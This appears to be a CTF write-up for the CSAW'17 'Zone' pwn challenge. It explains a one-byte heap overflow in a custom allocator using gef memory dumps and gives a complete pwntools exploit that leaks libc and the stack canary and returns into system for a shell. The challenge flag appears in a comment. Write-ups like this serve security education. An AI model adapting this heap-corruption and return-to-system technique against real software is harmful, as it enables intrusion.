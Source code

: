 ```yaml
---
layout: post
comments: true
title: Zone - CSAW'17 (300 pts)
---
```


checksec output:
```
gef➤  checksec 
[+] checksec for '/home/sanat/csaw/zone'
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
gef➤  
```

There was literally no point in opening up the disassembly of the program in IDA. Its pretty obvious how the program works and we can understand its working using dynamic memory analysis.

```
Environment setup: 0x7fffffffde10
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
```

Stack leak right there. Although I think that was totally unnecessary since we can get that anyways through environ. I'll talk about this later.

So I allocated 2 chunks of size 20 with "AAAAAAAAA"s and "BBBBBB"s. Lets see where its getting stored.

```
gef➤  x/40xg 0x00007ffff7ff5000
0x7ffff7ff5000:	0x0000000000000040	0x0000000000000000
0x7ffff7ff5010:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5020:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5030:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5040:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5050:	0x0000000000000040	0x0000000000000000
0x7ffff7ff5060:	0x4242424242424242	0x0000000000004242
0x7ffff7ff5070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5090:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50a0:	0x0000000000000040	0x00007ffff7ff50f0
0x7ffff7ff50b0:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50c0:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50d0:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50e0:	0x0000000000000000	0x0000000000000000
0x7ffff7ff50f0:	0x0000000000000040	0x00007ffff7ff5140
0x7ffff7ff5100:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5110:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5120:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5130:	0x0000000000000000	0x0000000000000000
gef➤  
```

A few things I noticed about the way its all arranged.
1. A full mmap'ed space is given to a particular size. So if we request size 20 then whole mmap page just for that size. So if we next request size 40, it will have to create separate mmap page. [Very Inefficient Algorithm]
2. All free chunks in an mmap'ed space are held in a singly linked list. All allocated chunks dont have this special pointer (as usual).
3. There are no checks to see whether linked list is corrupted or not.

Because of this we can make it point to any arbitrary place as long as it contains valid size and pointer.

### Bug

Program reads 1 extra char. So we can overwrite size of next chunk. Doing so we can then free that chunk and then our next allocation of that size will give us that chunk in that place meaning we overlapped chunks.

```
gef➤  x/20xg 0x00007ffff7ff5000
0x7ffff7ff5000:	0x0000000000000040	0x0000000000000000
0x7ffff7ff5010:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5020:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5030:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5040:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5050:	0x0000000000000042	0x00007ffff7ff50a0 <-- "B" in place of size.
0x7ffff7ff5060:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5090:	0x0000000000000000	0x0000000000000000
```
Now program will still think its a 0x40 size chunk. We request size 64 again. We get that allocation. Then when we free it again, it will be a free chunk of size 0x42 and if we make an allocation of size 0x42, we will get same chunk but with overflow.

Of course this will not work since 0x42 is not an aligned size type. All allocations for an mmap'ed page happen in 0x40,0x80 and so on. So overflow with 0x80. Then it will contain a pointer to that mmap page with size 0x80 only except this will be the only 0x80 free chunk lying in this area.

```
gef➤  x/20xg 0x00007ffff7ff5000
0x7ffff7ff5000:	0x0000000000000040	0x0000000000000000
0x7ffff7ff5010:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5020:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5030:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5040:	0x4141414141414141	0x4141414141414141
0x7ffff7ff5050:	0x0000000000000080	0x00007ffff7ff4000 <-- ptr to other mmap'ed area of size 0x80......whats it doing in 0x40 segment ??
0x7ffff7ff5060:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff5090:	0x0000000000000000	0x0000000000000000
gef➤  x/20xg 0x00007ffff7ff4000
0x7ffff7ff4000:	0x0000000000000080	0x00007ffff7ff4090 <-- 0x80 size mmap segment.
0x7ffff7ff4010:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4020:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4030:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4040:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4050:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4060:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4090:	0x0000000000000080	0x00007ffff7ff4120

```
This way we can leak and control our linked pointers easily.

At this point we need to use the stack leak and find out address of saved rbp . Allocate chunk somewhere near saved rbp (trivial House Of Spirit attack) and overwrite it finally call exit and get shell.

```
ef➤  x/20xg 0x7fffffffde10
0x7fffffffde10:	0x0000000000000040	0x00007ffff7ff50a0
0x7fffffffde20:	0x00007ffff7ff5000	0x0000000000000080
0x7fffffffde30:	0x00007ffff7ff5050	0x00007ffff7ff4000
0x7fffffffde40:	0x0000000000000100	0x00007ffff7ff3000 <-- 0x100 is nice size. Lets make linked list ptr point here :)
0x7fffffffde50:	0x00007ffff7ff3000	0x0000000000000200
0x7fffffffde60:	0x00007ffff7ff2000	0x00007ffff7ff2000
0x7fffffffde70:	0x00000000004045f0	0xef7f095ce3cc7400 <-- canary
0x7fffffffde80:	0x00007fffffffdf70	0x0000000000000000
0x7fffffffde90:	0x00000000004045f0	0x00007ffff7495830 <-- RIP
0x7fffffffdea0:	0x0000000000000000	0x00007fffffffdf78
```

We will need to leak canary also. Once we make allocation, make our input continuous with canary, leak it and then do final attack.

There was no need for stack leak however since we could just make an allocation near environ and leak environ itself. Would have made for a tougher challenge.

```
gef➤  x/xg 0x7ffff7ffe0d5
0x7ffff7ffe0d5 <alloc_ptr+5>:	0x000060800000007f <-- nice size again
gef➤  
0x7ffff7ffe0dd <__curbrk+5>:	0x0000000000000000
gef➤  
0x7ffff7ffe0e5:	0x0000000000000000
gef➤  
0x7ffff7ffe0ed <pc_offset+5>:	0x0000000000000000
gef➤  
0x7ffff7ffe0f5 <nsamples+5>:	0x0000000000000000
gef➤  
0x7ffff7ffe0fd <samples+5>:	0xffffffdf88000000
gef➤  
0x7ffff7ffe105 <environ+5>:	0x000000000000007f <-- stack pointer

```

Final exploit code below.

```
#!/usr/bin/python
from pwn import *

p = remote("pwn.chal.csaw.io", 5223)
#p = process("./zone")
# flag{d0n7_let_m3_g3t_1n_my_z0n3}
raw_input()

def menu():
	p.recvuntil("5) Exit\n")

def allocate(size):
	menu()
	p.sendline("1")
	p.sendline(str(size))

def delete():
	menu()
	p.sendline("2")

def edit(name):
	menu()
	p.sendline("3")
	p.sendline(name)

p.recvuntil("Environment setup: ")
stack_leak = int(p.recv(14),16)

buf = "A"*64
buf += "\x80"
allocate(64)

edit(buf)
# Overflowed 1 byte.
allocate(64)
delete()

allocate(110)
buf = "A"*72
edit(buf)

# Leak libc.
menu()
p.sendline("4")
p.recvuntil(buf)
libc = p.recv(6)
libc += "\x00"*2
libc = u64(libc) - 0xb840f0
log.info("Libc: " + hex(libc))
log.info("Stack: " + hex(stack_leak))

stack = p64(stack_leak + 0x30)
#hook = p64(libc + 0x3c4af5)
#magic = p64(libc + 0xf0274)
system = p64(libc + 0x45390)

buf = "A"*64
buf += p64(0x80)
buf += stack
edit(buf)

allocate(64)
#p.interactive()
delete()

allocate(64)
# Chunk allocated near saved rbp. Leak canary.
finale = "Z"*41
edit(finale)

menu()
p.sendline("4")
p.recvuntil(finale)
canary = p.recv(7)
canary = "\x00" + canary
canary = u64(canary)
log.info("Canary: " + hex(canary))

delete()
allocate(250)

finale = "X"*40
finale += p64(canary)
finale += "D"*24
finale += p64(0x0000000000404653)
finale += p64(libc + 0x11e70)
finale += system
edit(finale)

p.interactive()

```

